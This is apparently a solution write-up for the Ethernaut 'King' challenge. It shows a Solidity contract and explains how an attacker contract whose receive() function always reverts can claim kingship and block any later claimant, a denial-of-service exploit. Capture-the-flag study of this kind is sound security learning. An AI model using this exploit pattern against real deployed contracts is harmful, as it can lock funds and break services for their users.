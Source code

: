# Ethernaut King solution
## Problem
The goal of this level is for you to prevent the owner claim the king a gain.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

## Explaination
+ So in the condition to be a king, we can see : case 1 we send the greate value, case 2 is sender is owner.
+ If the sender is owner, 100% require will be pass.
+ So we dont need to care about the require, 2 assign code in the end, only care about the transfer.
+ Because that the only thing can revert is in transfer().
### How to make transfer() revert?
+ In this case we only native coin, so in the receiver have 2 case:
1. Normal wallet(without code) : can't be revert!
2. Wallet with code : so the receive() is executed. So just make receive revert, it lead to the whole process will revert to!

## Solution 
So when we break all the information we need, the solution is really clearly :
1. Write a contract can claim king and can't receive native coin.
2. Claim the king, and that done :D

Here is the code:
```solidity
contract Attacker {

  function attack(address payable _victim) public payable{

    require(msg.value >= King(_victim).prize(), "Not enough money bro!");

    (bool success,) = _victim.call{value : msg.value}("");

    require(success, "Fail in call value to king victim");

  }
  receive() external payable {
    require(false, "Nah, I'm still king bro");
  }
}
```
